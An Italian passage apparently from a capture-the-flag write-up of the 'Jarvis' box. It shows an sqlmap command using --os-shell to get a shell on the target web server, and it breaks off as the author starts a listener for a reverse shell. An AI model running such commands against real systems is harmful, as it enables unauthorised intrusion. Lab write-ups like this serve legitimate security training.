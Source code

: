 Prima di ispezionare questa pagina, un'altra feature interessante di _sqlmap_ consiste nel tentare di ottenere una shell sull'host dove gira il webserver:

```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --os-shell -r richiesta.txt
```

**Funziona!**

<p align="center">
  <img src="/Immagini/Linux-Box/Jarvis/jarvis-10.png"/>
</p>

<p align="center">
  <img src="/Immagini/Linux-Box/Jarvis/jarvis-11.png"/>
</p>

Per ricavare una reverse shell avvio un listener sulla porta 1234 e idutilizzo il seguente comando:
